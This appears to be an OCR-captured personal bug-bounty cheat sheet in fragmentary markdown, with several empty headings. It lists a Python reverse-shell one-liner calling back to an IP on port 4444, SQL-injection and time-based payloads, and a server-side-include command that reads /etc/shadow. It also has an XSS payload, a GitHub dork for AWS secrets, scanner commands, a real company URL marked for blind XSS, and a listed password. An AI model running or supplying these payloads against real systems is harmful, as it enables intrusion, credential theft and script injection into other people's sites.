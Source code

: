## Regex Ip V4 

- \.[0-9]{0,3}\.[0-9]{0,3}\.[0-9]{0,3}\.[0-9]{0,3}$\ 

## SSRF Test

## Search Bar

## First XSs

## Favicon-Hash
- icon_hash="1422998653" || icon_hash="1653992894" || icon_hash="1995292342"

## Information Disclosure PII 

- nuclei -t cves/ -t vulnerabilities -severity critical,high

- python3 -W ignore /tmp/LinkFinder/linkfinder.py -i live-url -o cli

## python Shell

python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.31.84.153/",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

## Git Hub Dork

- org:( NOT support NOT @gmail  NOT  @yahoo NOT @express NOT www NOT https ) AWS

- SELECT CASE WHEN (* FROM blackbox WHERE id=3 ) THEN pg_sleep(10) ELSE pg_sleep(0) END

- SELECT+'foo'+WHERE+1=1+AND+EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))

&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/shadow&quot;--&gt;



 --blacklist png,jpg,gif,svg,ttf,css,jpeg --fc 404,302

<!-+-!>"<svg/onload=alert(1)//>	

## Domain-Take-Over-Azure 

- asp,aspx,jsp,php

### Inject-Blind-Xss

- https://partners.sitecore.com/s/get-help
## IDOR Posipole 

- Email => 
- Passowrd => TryH@ckMeIfC@nThisIwiilGiveY0uM0nyEsayWay

- Email =>
- pwd => 

